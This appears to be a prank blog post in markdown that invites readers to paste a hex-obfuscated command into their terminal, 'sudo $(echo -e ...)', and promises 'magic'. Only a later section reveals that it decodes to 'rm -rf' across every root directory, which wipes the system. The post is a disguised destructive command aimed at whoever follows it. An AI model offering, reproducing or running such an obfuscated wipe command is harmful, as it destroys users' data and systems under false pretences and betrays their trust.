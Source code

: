 ```yaml
---
layout: post
title: In case of emergency break the computer
subtitle: I see crashs, crashs all over the place
bigimg: /img/crash.gif
---
```


# In case of emergency break the computer
I see crashs, crashs all over the place

## What happens when we join the hunger with the urge to eat?

Open your TERMINAL and add a little code...

`sudo $(echo -e $(echo "726D202D7266" | sed 's/../\\x&/g;s/$/ \/*/'))`

Feel the magic happening before your eyes!

[![Echo do Mal](http://dropall.github.io/img/echo.jpg)](https://youtu.be/2DmHylxUTZw)

### Translation of code

What is actually inside the top hat

` rm -rf /bin /boot /cdrom /dev /etc /home /initrd.img /initrd.img.old /lib /lib64 /lost+found /media /mnt /opt /proc /root /run /sbin /snap /srv /sys /tmp /usr /var /vmlinuz /vmlinuz.old`



**Mage:** Via Telegram: [@x_SHAMAN_x](https://t.me/x_SHAMAN_x) / [Linux Group](https://telegram.me/joinchat/CYyDAT0Jg_EVAEedD9qgsw)